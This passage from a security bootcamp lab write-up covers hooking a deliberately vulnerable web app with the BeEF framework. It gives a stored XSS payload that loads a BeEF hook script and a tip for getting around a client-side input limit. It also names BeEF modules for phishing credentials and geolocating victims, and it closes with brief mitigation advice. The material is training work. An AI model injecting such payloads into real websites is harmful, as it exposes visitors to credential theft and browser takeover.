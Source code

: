    - Return to the BeEF control panel. In the center panel, select the first option. Note that now on the right panel, the username and password have been captured by the attacker.

     **https://github.com/D7Carivs/Trilogy-Bootcamp-Homework/blob/main/week-15/screenshots%20BeEF/beef%2019.PNG**

5. Now that you know how to use the BeEF tool, you'll use it to test the Replicants web application. You are tasked with using a stored XSS attack to inject a BeEF hook into Replicants' main website.

   - Task details:
     - The page you will test is the Replicants Stored XSS application which was used the first day of this unit: `http://192.168.13.25/vulnerabilities/xss_s/`
     - The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`
     - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`

   -  When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.    
      
      - **Hint:** Try right-clicking and selecting "Inspecting the Element".
    
   - Once you are able to hook into Replicants website, attempt a couple BeEF exploits. Some that work well include:
     
     - Social Engineering >> Pretty Theft
     
     - Social Engineering >> Fake Notification Bar
     
     - Host >> Get Geolocation (Third Party)
    
6. **Deliverable**: Take a screen shot confirming that this exploit was successfully executed and provide 2-3 sentences outlining mitigation strategies. 

    - To Mitigate against XSS you could add server side input validation to deny scripts as inputs and use HTTP response headers to prevent malicious scripts from running. 

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
